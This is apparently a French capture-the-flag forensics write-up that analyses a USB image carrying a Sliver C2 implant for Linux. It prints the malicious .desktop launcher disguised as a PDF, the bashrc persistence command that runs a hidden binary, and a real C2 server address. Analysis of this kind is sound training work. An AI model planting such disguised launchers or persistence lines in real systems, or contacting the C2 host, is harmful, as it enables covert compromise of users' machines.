

# Silver

Difficulté : :star: :star:

Author: Mr.NOODLE

Catégorie : Forensics

## Enoncé

> Hey,
> 
> I received a flash drive in my mailbox. It appears that the person who sent me the package was aware that I was using Linux. However, the flash drive self-destructed before I was able to make an image of it. To get the flag, you have to go to the showcase site of the c2 in question.
> 
> This is real malware, so be careful when running it, use a vm for malware analysis
> 
> Checksum Sha256 of usb_drive.img : 8947e34165792040d86915aea29df01f5e65f49ccfd624032522720ffb87c379

## Solve

```shell
sha256sum usb_drive.img | grep 8947e34165792040d86915aea29df01f5e65f49ccfd624032522720ffb87c379
8947e34165792040d86915aea29df01f5e65f49ccfd624032522720ffb87c379  usb_drive.img
```

On doit chercher l'adresse d'un C2. De plus, le nom du chall fait penser au framework **Sliver**.

Première étape, on met dans autopsy l'image de la clé USB. Dans les *Deleted files* on peut trouver les fichiers suivant :
- firefox.elf
- important.pdf
- a.sh
- Important.pdf.desktop

`Important.pdf.desktop` :

```shell
cat 7-Important.pdf.desktop 
[Desktop Entry]
Encoding=UTF-8
Version=1.0
Type=Application
Terminal=False
Exec=bash ./.a.sh
Name=Important.pdf
Icon=.pdf.png
```

On comprend rapidement que le `important.pdf` sert à lancer le script `a.sh`. 

Ce script exécute `echo -e "# Launch the best browser\n~/.firefox &" >> ~/.bashrc` : Cette commande ajoute `~/.firefox &` à la fin du fichier `~/.bashrc`. Cette ligne de code exécute le navigateur web Firefox en lançant un processus en arrière-plan (&). Il renomme/déplace `firefox.elf` en `~/.firefox`.

La commande `~/.firefox &` sera exécutée à chaque fois qu'un nouveau shell interactif est lancé. Cela signifie que chaque fois qu'un utilisateur ouvre un terminal, le binaire sera lancé en arrière-plan.

Il faut donc analyser notre **elf**. Un `strings` sur l'ELF permet de vérifier notre hypothèse quant à la technologie utilisé pour le C2 (https://github.com/BishopFox/sliver) : 

```
strings firefox.elf

[...]
B/Z-github.com/bishopfox/sliver/protobuf/sliverpbb
[...]
```

Le binaire semblait un peu corrompu et il était impossible pour moi d'obtenir un résultat dans ghidra. J'ai donc décider de faire une anlyser dynamique (plus simple) pour obtenir l'IP du C2. Dans une VM, on lance le binaire avec Wireshark et on observe la connexion HTTP sur le port 443 avec l'IP.



On se rend sur l'IP:PORT : `http://178.62.67.181:443/`

On a l'image avec le flag :


**Flag PWNME{1_L0v3_U53_C2}**